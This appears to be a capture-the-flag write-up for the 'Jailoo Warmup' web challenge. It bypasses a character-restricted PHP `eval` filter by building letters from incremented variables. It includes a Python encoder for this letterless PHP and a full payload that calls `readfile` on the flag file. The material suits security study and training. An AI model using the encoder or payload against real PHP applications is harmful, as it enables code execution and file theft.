

# Jailoo Warmup

## Description

- Category: web
- Points: 442/500
- Solved by: drw0if, 0xThorn

## Writeup

As said in the challenge description, the objective is to get the content of `FLAG.PHP`


The website is very simple: it only contains a textbox and a submit button.

First we have a look at the provided source code:

```PHP
<?php
if (sizeof($_REQUEST) === 2 && sizeof($_POST) === 2) {
	$cmd = $_POST['cmd'];
	$submit = $_POST['submit'];
	if (isset($cmd) && isset($submit)) {
		if (preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)) {
			echo "<div class=\"success\">Command executed !</div>";
			eval($cmd);
		} else {
			die("<div class=\"error\">NOT ALLOWED !</div>");
		}
	} else {
		die("<div class=\"error\">NOT ALLOWED !</div>");
	}
} else if ($_SERVER['REQUEST_METHOD'] != "GET") {
	die("<div class=\"error\">NOT ALLOWED !</div>");
}
```

As seen in the source code, the text inserted in the textbox will be executed with an `eval`, but only if it contains `$()_[]=;+".`, because of the regex.

After some research on google, it seems that you can create code without using letters. The strategy is to assign a letter to a variable and then increase its value to get all the letters. Then by concatenating them it is possibile to write anything.

The first problem is how to get a letter, preferably `A`.

```PHP
$_=[]; // Create an array
$_="$_"; // $_ = Array
$_=$_["."+"."]; // $_ = $_[0] (because "."+"." returns an error) = A
```

From now on it is easy to get any letter. For example if we need a C we can do:

```PHP
$__=$_; // A
$__++;$__++; //C (A increased two times)
```

Now it comes the tricky part: writing an exploit. Writing all the code by hand is slow, so we wrote a script that can encrypt the strings we want.

```PYTHON
def encodeString(payload, variableName): # Payload is the string to be encoded, the variableName is generally '___' (a certain number of underscores)
  payload = payload.upper()

  ans = '$' + variableName + '="";' # Initializes the variable

  for c in payload:
    if c in '$()_[]=;+.': # If it is an allowed character it just concatenates it
      ans += '$' + variableName + '.="' + c + '";'

    else: # Otherwise it creates the letter starting from the 'A'
      offset = ord(c) - ord('A')
      ans += '$__=$_;'
      ans += '$__++;' * offset
      ans += '$' + variableName + '.=$__;'

  return ans
```

Finally comes the part that took the most time away: choosing the function to be called. After some struggle with `print`, `echo` and `file_get_contents`, the best solution turned to be `readfile('FILE.PHP');`

Putting it all together, to obtain a working code we had to init a variable with `A`, create two variables for `readfile` and `file.php` and then put them together with something like `$___($_____);`. The final code of the script is in this repository.

The result is this mess: `$_=[];$_="$_";$_=$_["."+"."];$___="";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$___.=$__;$__=$_;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$_____="";$__=$_;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_____.=".";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$___($_____);`

By pasting that string in the textbox and pressing execute, we were able to fing the flag in the page code.


